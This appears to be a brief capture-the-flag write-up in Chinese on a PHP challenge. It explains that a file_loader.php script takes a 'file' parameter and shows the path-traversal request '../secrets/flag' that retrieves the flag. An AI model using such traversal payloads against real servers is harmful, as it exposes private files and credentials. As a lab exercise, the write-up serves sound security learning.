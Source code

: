 # Potentially Hidden Password
拿到網站php原始碼，收集線索：
 1. 網站使用file_loader.php這隻程式來讀取檔案，例如顯示圖片的code是這樣：
```
<img src="file_loader.php?file=zone2.jpg" class="zone"/>
```
 2. 再看到給出flag的程式碼：知道flag藏的路徑，如果file_loader.php能把flag讀出來的話就解開了。
使用圖片測試，猜出中相對路徑：
```
file_loader.php?file=../secrets/flag
```
成功取得 flag = i_like_being_included